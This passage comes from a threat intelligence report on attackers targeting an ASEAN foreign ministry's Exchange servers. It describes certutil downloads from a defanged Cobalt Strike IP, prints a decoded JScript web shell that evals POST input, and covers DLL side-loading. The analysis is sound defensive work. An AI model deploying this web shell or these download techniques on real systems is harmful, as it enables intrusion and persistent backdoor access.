 The following section highlights multiple attempts by the threat actors to install a web shell as a back door into the environment if they are evicted. While speculative in nature, it appears that most of these attempts to load web shells failed. It is unclear what the reasons for the failures are. We’ll not cover every attempt at loading a web shell, as several of them were very similar, but we’ll highlight the shifts in approaches.

The first attempt was to use the Microsoft **certutil** tool to download an Active Server Pages (ASPX) file ( **config.aspx** ) from a remote host (**185.239.70[.]229**) and save it as the **error.aspx** page on the Exchange Control Panel’s webserver. Because this IP address is a [known](https://threatfox.abuse.ch/ioc/1023850/) Cobalt Strike server, it may have been blocked by network defense architecture, leading to further attempts to overwrite **error.aspx**.

![Attempt to overwrite error.aspx with config.aspx from a known Cobalt Strike server](/assets/images/siestagraph-new-implant-uncovered-in-asean-member-foreign-ministry/image9.jpg)

After attempting to use **config.aspx** from a Cobalt Strike C2 server, the threat actors attempted to insert Base64 encoded Javascript into a text file ( **1.txt** ), use **certutil** to decode the Base64 encoded Javascript ( **2.aspx** ), and then overwrite **error.aspx** with **2.aspx**. This was attempted on both the Exchange Control Panel and Outlook Web Access web servers.

![Attempt to overwrite error.aspx with Javascript file](/assets/images/siestagraph-new-implant-uncovered-in-asean-member-foreign-ministry/image15.jpg)

The Base64 encoded string decoded into the following Javascript:

```
<%@ Page Language="Jscript" Debug=true%>
<%
var TNKY='nHsXLMPUSCABolxOgKWuIFeGVimhEjyzQrTvRcwafZdJDktqYpbN';
var ZZXG=Request.Form("daad");
var VAXN=TNKY(7) + TNKY(0) + TNKY(2) + TNKY(10) + TNKY(21) + TNKY(22);
eval(ZZXG, VAXN);
%
```

The preceding code is a simple web shell leveraging the [eval Method](<https://learn.microsoft.com/en-us/previous-versions/visualstudio/visual-studio-2008/b51a45x6(v=vs.90)>)to evaluate JScript code sent through the POST parameter **daad**. Variations of this technique were attempted multiple times. Other attempts were observed to load [obfuscated versions](https://github.com/ysrc/webshell-sample/blob/master/aspx/54a5620d4ea42e41beac08d8b1240b642dd6fd7c.aspx#L11) of the [China Chopper](https://malpedia.caad.fkie.fraunhofer.de/details/win.chinachopper) and [Godzilla](https://malpedia.caad.fkie.fraunhofer.de/details/jsp.godzilla_webshell) [web shells](https://github.com/tennc/webshell/blob/master/Godzilla/123.ashx).

### December 1–4, 2022

### DLL side-loading

On December 2, 2022, on two Domain Controllers, we observed a new DLL ( **log.dll** ) being side loaded by a legitimate, but an 11-year-old, version of the Bitdefender Crash Handler executable (compiled name: **BDReinit.exe** ), **13802 AR.exe**. Once executed, it will move to the **C:\ProgramData\OfficeDriver\*\* directory, rename itself **svchost.exe\*\* , and install itself as a service.

Once **log.dll** is loaded, it will spawn the Microsoft Windows Media Player ( **wmplayer.exe** ) and **dllhost.exe** and injects into them which triggers a memory shellcode detection.
